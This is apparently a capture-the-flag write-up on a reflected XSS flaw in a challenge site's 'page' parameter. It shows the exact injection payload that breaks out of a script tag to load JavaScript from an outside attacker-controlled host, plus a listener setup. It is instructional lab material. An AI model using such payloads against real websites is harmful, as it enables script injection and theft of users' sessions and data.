 The home page of the application contains a comment in the source that points to an admin panel:

```html
<!--To Do!-->
<!--<div class="collapse navbar-collapse" id="navbarResponsive">
  <ul class="navbar-nav ml-auto">
    <li class="nav-item">
      <a class="nav-link" href="/?page=admin">Admin</a>
    </li>
  </ul>
</div>-->
```

The user should get the hint that this page does not exist (hence the "to do" note) However, when visiting the page, a new javascript library is attempted to be loaded:

```html
<script src="/javascripts/admin.js" ></script>
```

The "admin" part of this script is loaded from the page parameter. For example, if we visit /?page=xss-test, the page will load:

```html
<script src="/javascripts/xss-test.js" ></script>
```

Now we just need to escape out of the html and point to a javascript file we control:

http://business-casual.mysterious-hashes.net:8080/?page **="></script><script src="http://192.168.1.100/script**

If we visit this page, this is the js that is attempted to be loaded:

```html
<script src="/javascripts/ **"></script><script src="http://192.168.1**.js" ></script>
```

That is not the full script we put in and it won't work. The application limits the amount of characters that can be submitted. Instead we need to use the shorthand for protocol and call the file without a name:

http://business-casual.mysterious-hashes.net:8080/?page **="></script><script src="//192.168.1.100/**

Let's break this down:

1. The first quote is to end the src html attribute
2. The greater than is to end the first script tag
3. The next </script> is to make the html valid and end the unused script tag
4. Next we create a new script tag at <script…
5. And finally the source is the ip but without the protocol. Instead "//" instructs the browser to use whatever protocol loaded the page initially

Let's set up a server and see if we can get a request to come through (I am using python's SimpleHTTPServer on port 80 for this). In the logs, we can see that the application is looking to load the file .js:

 ![SimpleHTTPServer set up](/assets/img/ccandbc/10bc.png)
